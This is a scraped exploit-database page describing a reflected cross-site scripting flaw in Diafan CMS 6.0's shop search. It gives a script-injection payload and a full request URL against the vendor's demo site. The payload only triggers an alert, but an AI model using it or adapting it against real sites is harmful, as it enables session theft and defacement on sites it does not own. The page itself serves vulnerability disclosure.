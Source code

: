 ```yaml
---
title: Diafan CMS 6.0 - Reflected Cross-Site Scripting (XSS) exploit
url: https://sploitus.com/exploit?id=EDB-ID:51529&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-20
fetch_date: 2025-10-04T11:44:41.274013
---
```


# Diafan CMS 6.0 - Reflected Cross-Site Scripting (XSS) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Diafan CMS 6.0 - Reflected Cross-Site Scripting (XSS)

2023-06-19 | CVSS 7.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51529
# Exploit Title: Diafan CMS 6.0 - Reflected Cross-Site Scripting (XSS)
# Exploit Author: tmrswrr / Hulya Karabag
# Vendor Homepage: https://www.diafancms.com/
# Version: 6.0
# Tested on: https://demo.diafancms.com

Description:

1) https://demo.diafancms.com/ Go to main page and write your payload in Search in the goods > Article field:
Payload : "><script>alert(document.domain)<%2Fscript>
2) After will you see alert button :
https://demo.diafancms.com/shop/?module=shop&action=search&cat_id=0&a=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&pr1=0&pr2=0
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
